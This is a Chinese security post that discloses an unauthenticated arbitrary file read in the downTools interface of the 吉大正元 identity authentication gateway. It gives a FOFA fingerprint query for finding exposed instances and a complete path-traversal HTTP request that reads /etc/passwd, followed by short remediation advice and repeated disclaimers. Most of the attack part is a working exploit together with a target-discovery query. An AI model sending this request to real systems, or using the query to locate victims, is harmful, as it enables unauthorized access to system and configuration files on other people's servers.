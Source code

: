 #  吉大正元身份认证网关 downTools 任意文件读取漏洞   
 HK安全小屋   2025-05-11 14:04  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
漏洞描述：  
  
吉大正元身份认证网关 downTools 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。  
  
影响版本：  
  
吉大正元  
  
FOFA:  
```
body="/jit_pnx_portal/" || header="server: jit_pnxcore1 web service" || title="吉大正元身份认证网关"
```  
  
POC:  
```
GET /jit_pnx_portal/downTools?fileName=../../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: close
```  
  
成功读取/etc/passwd文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI1QMKtwEcw3hWkF8JfkM0Th6Wnn07eibn1eqzdYHych97UzWbiahbo1KazC6s5lDovkotgSYgAd84HQ/640?wx_fmt=png&from=appmsg "")  
  
**修复建议**  
  
1、关闭互联网暴露面或设置访问权限，禁止非管理IP访问对应页面。  
  
2、关注厂商升级至安全版本，  
  
3、及时联系官方获取更新补丁  
  
--------  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
  
  
  
